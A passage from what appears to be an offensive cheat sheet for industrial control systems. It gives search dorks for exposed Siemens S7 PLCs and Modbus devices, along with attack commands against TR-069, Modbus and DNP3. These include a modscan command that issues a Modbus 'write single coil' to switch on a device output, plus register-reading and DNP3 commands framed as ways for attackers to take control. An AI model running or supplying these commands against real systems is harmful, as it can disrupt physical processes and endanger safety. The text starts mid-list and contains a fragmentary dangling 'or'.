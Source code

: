 This dork searches for Siemens SIMATIC S7 PLCs, which are used in industrial automation and control.


```
"port:20000"
```


This dork searches for the Schneider Electric Modicon Modbus Protocol, which is used in various industrial control applications.



## TR-069

TR-069 is a protocol used by ISPs to remotely manage customer routers. Attackers can exploit vulnerabilities in this protocol to take control of the router.


```
python3 genieacs.py --list
```

## Modbus

Modbus is a protocol used in industrial control systems. Attackers can exploit vulnerabilities in Modbus to take control of these systems.

```
modscan.py -a <target> -p 502 -t 0 -r 1-100
```

or

This command targets the Modbus protocol and attempts to trigger a "write single coil" command to turn on a specific output on the target device.


```
"modscan.py --ip-address <target IP> --port 502 --unit 1 --function-code 5"
```

This command uses the modpoll tool to query the Modbus register at address 1 of a device with the IP address 192.168.0.10. The -t 4 option specifies that the tool should use the Modbus function code 4, which is used for reading input registers. An attacker can use this command to extract data from an OT system or to test if it is vulnerable to Modbus protocol attacks.


```
modpoll -m tcp -a 1 -r 1 -c 1 -t 4 -1 192.168.0.10
```


## DNP3

DNP3 is a protocol used in SCADA systems. Attackers can exploit vulnerabilities in DNP3 to take control of these systems.

```
python3 dnp3-master.py -i eth0 -a <target> -p 20000 -o 3 -c 1 -v
```

